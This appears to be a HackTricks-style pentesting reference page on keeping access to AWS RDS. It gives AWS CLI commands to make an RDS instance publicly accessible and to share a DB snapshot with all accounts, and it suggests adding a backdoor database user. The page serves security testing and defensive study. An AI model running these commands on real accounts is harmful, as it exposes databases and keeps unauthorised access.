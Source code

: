 # AWS - RDS Persistence

{{#include ../../../banners/hacktricks-training.md}}

## RDS

For more information check:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### Make instance publicly accessible: `rds:ModifyDBInstance`

An attacker with this permission can **modify an existing RDS instance to enable public accessibility**.

```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```

### Create an admin user inside the DB

An attacker could just **create a user inside the DB** so even if the master users password is modified he **doesn't lose the access** to the database.

### Make snapshot public

```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```

{{#include ../../../banners/hacktricks-training.md}}
